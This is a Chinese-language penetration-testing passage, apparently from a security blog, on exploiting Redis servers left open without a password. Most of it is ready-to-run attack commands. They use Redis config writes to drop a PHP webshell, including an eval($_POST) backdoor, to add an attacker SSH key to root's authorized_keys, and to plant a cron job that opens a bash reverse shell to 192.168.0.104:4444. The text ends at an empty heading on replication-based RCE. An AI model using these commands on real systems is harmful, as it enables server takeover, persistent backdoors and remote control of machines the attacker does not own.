 Redis 与 memcached 一样，为了保证效率，数据都是缓存在内存中。但 Redis 会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了 master-slave (主从) 同步。

### [](#redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E)redis 未授权访问漏洞

默认的配置是使用 6379 端口，没有密码。这时候会导致未授权访问读写 Redis 数据。

#### [](#%E5%9C%A8-web-%E7%9B%AE%E5%BD%95%E4%B8%8B%E5%86%99%E5%85%A5-webshell)在 web 目录下写入 Webshell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>config set dir /var/www/html<br>config set dbfilename webshell.php<br>set webshell "<?php phpinfo();?>"<br>save<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512150346.png-water_print](assets/1699409321-a988037dc226161d79823b6374bfbfd6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512150346.png-water_print")

当数据库过大时，redis 写 shell 的小技巧：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```php<br><?php <br>set_time_limit(0);<br>$fp=fopen('webshell.php','w');<br>fwrite($fp,'<?php @eval($_POST[1]);?>');<br>exit();<br>?><br>``` |

#### [](#%E5%86%99-ssh-%E5%85%AC%E9%92%A5)写 ssh 公钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>ssh-keygen -t rsa<br>cd .ssh<br>(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt<br>cat 1.txt \| redis-cli -h ip -x set payload<br>config set dir /root/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

#### [](#%E5%86%99-crontab)写 crontab

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>redis-cli -h 192.168.0.104<br>set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.104/4444 0>&1\n\n"<br>config set dir /var/spool/cron<br>config set dbfilename root<br>save<br>``` |

### [](#%E5%88%A9%E7%94%A8-redis-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6-rce)利用 redis 主从复制 rce
